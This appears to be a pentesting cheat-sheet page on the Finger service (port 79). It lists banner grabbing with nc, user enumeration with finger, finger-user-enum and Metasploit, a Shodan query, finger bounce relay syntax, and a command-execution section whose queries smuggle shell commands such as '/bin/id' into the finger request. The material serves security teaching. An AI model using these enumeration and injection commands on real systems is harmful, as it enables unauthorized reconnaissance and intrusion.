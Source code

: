 # 79 - Pentesting Finger


## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively you can use **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

* `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```

